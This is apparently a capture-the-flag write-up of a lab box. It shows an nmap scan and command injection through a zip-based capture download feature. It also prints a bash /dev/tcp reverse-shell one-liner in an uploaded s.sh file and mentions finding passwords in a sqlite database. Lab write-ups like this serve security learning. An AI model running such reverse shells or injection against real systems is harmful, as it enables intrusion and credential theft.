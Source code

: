# Enumeration
```
# Nmap 7.94SVN scan initiated Fri Apr 19 19:04:58 2024 as: /usr/bin/nmap -p- --max-retries 1 --max-rate 500 --max-scan-delay 20 -T4 -v --open -oN nmap/Full_10.10.71.110.nmap --system-dns --stats-every 3s 10.10.71.110
Nmap scan report for 10.10.71.110
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Checking the webpage on port 80:
![](attachment/2bd91038639779e61650ac5c23376d45.png)

Now when we download captures and check response on burp suite:
![](attachment/10b7048deb18e22f68b5d1b01726cf24.png)

This output is similar to zip command in linux.
Now trying command injection with zip

We need to upload these files to get command injection:
![](attachment/9d6e513d1bf62dbca276a7f5138c6e96.png)
*s.sh*:
```
0<&196;exec 196<>/dev/tcp/10.8.1.208/9001; /bin/bash <&196 >&196 2>&196
```

Now when we hit download capture we get a shell:
![](attachment/9c92541cc265222c3908b54b827217ea.png)

Now enumerating **/var/www/database** we find `database.sqlite3`
![](attachment/7dc7b02bf534959ccbaa590eff8523ba.png)
And it has passwords


# TCPDump & AppArmor